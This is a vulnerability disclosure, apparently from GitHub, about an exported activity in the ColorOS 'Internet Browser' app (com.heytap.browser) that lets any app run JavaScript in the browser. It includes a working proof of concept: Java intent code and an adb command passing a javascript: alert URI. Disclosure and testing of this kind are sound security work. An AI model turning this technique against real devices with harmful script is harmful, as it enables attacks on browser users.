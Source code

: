 ## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.heytap.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - ColorOS
- **Application Name:** 'Internet Browser' `com.heytap.browser`
- **Version:** 45.10.3.4.1
- **Component:** com.android.browser.RealBrowserActivity

### Vulnerability Details:

- **Vulnerability Type:** JavaScript Code Execution
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.android.browser.RealBrowserActivity` activity in the `com.heytap.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.heytap.browser`` application.


### Proof of Concept (PoC):


```
{
        super.onCreate(savedInstanceState);

        String javaScriptCommand = "javascript:alert%28%27Test%20Alert%27%29%3B";

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setData(Uri.parse(javaScriptCommand));
        intent.setClassName("com.heytap.browser", "com.android.browser.RealBrowserActivity");

        startActivity(intent);

        finish();
    }
```

```

adb shell am start -a android.intent.action.VIEW -d "javascript:alert%28%27Test%20Alert%27%29%3B" -n com.heytap.browser/com.android.browser.RealBrowserActivity

```

![poc-coloros](https://github.com/actuator/com.heytap.browser/assets/78701239/952f08c7-b8d6-4982-80bb-28b693b20134)




### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.heytap.browser` app.


